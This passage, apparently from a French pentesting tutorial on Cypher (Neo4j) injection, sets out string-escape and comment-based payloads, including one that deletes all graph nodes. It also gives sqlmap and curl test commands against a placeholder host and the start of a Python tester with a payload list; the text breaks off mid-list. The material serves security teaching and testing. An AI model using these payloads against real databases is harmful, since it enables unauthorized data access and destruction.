 **🛠️ Techniques d'Échappement**

```cypher
-- 🔓 Sortir d'une chaîne simple
Original: MATCH (u) WHERE u.nom = 'USER_INPUT' RETURN u
Payload: Alice' OR 1=1 RETURN u//
Final: MATCH (u) WHERE u.nom = 'Alice' OR 1=1 RETURN u//' RETURN u

-- 🔓 Sortir d'un objet de propriétés
Original: MATCH (u:Utilisateur {nom: 'USER_INPUT'}) RETURN u  
Payload: Alice'}) OR 1=1 WITH u MATCH (all) RETURN all//
Final: MATCH (u:Utilisateur {nom: 'Alice'}) OR 1=1 WITH u MATCH (all) RETURN all//'}) RETURN u

-- 🔓 Technique "WITH AS" pour les clauses CREATE
Original: CREATE (n:Person) SET n.name="USER_INPUT" RETURN n
Payload: test" WITH 1337 AS dummy MATCH (n) DETACH DELETE n//
Final: CREATE (n:Person) SET n.name="test" WITH 1337 AS dummy MATCH (n) DETACH DELETE n//" RETURN n
```

**💬 Gestion des Commentaires**

```cypher
-- 📝 Commentaires inline (//) 
' OR 1=1 RETURN u//          -- Commente tout ce qui suit
' OR 1=1 RETURN u-- test     -- Équivalent SQL (ne marche pas en Cypher)

-- 📝 Commentaires multi-lignes (/* */)
' OR 1=1 RETURN u/*          -- Début de commentaire multi-ligne  
                            -- S'arrête au premier */ rencontré

-- 🎯 Contournement de LIMIT avec commentaires
Original: MATCH (u) WHERE u.nom = 'INPUT' RETURN u LIMIT 0
Payload: test' OR 1=1 RETURN u//
Final: MATCH (u) WHERE u.nom = 'test' OR 1=1 RETURN u// RETURN u LIMIT 0
```

#### 6.4 Outils et Automation

**🔧 Outils Spécialisés**

```bash
# 🎯 Cypher Injection Scanner (Burp Extension)
# Installation via BApp Store dans Burp Suite Pro

# 🕷️ sqlmap adaptation pour Cypher (expérimental)
python sqlmap.py -u "http://target.com/api/user/1*" --technique=B --dbms=neo4j

# 🔍 Tests manuels avec curl
curl -X GET "http://target.com/api/users/search?name=test%27%20OR%201%3D1%20RETURN%20u%2F%2F"
```

**🤖 Script de Détection Automatisée**

```python
#!/usr/bin/env python3
import requests
import time

class CypherInjectionTester:
    def __init__(self, base_url):
        self.base_url = base_url
        self.payloads = [
            "'",
            '"',
            ")",
            "' OR 1=1 //",
            "' AND 1=2 //", 
            "42+1-1",
```